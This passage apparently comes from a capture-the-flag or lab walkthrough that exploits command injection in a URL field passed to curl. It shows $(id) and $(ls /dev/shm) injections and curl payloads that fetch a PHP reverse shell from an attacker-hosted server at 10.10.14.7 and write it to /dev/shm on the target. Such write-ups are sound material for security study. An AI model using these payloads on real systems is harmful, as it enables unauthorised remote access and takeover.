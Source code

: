 Let's try to use command substitution:

> http://localhost/test.html $(id)

![](<../../.gitbook/assets/6 (4) (1).JPG>)

We get back the output mixed in with other output from the curl command. This is great, because we can potentially execute some code if we can upload something to the target. For this, I'll use PHP because it is not one of the disallowed commands. For more information about PHP on the command line, check out the following page:

{% embed url="https://www.php.net/manual/en/features.commandline.php" %}

Copy a PHP reverse shell script (eg on Kali /usr/share/webshells/php/php-reverse-shell.php) and modify the IP and port number. Start a python3 web server in the same directory to host the file. Next, we need to try and save it to disk on the target.&#x20;

We try with the following payloads, but we get permission denied errors:

> http://10.10.14.7/rshell.php -O
>
> http://10.10.14.7/rshell.php -o /var/www/rshell.php&#x20;
>
> http://10.10.14.7/rshell.php -o /var/www/html/rshell.php

For more information on the curl output options, checkout the following page:

{% embed url="https://everything.curl.dev/usingcurl/downloads" %}

Let's try saving the file to /dev/shm instead:

> http://10.10.14.7/rshell.php -o /dev/shm/rshell.php

![](<../../.gitbook/assets/9 (1) (1).JPG>)

We don't get any errors back, which is good. Let's see if we can list the files to confirm:

> http://localhost/test.html $(ls /dev/shm)

![](<../../.gitbook/assets/10 (3) (1) (1).JPG>)
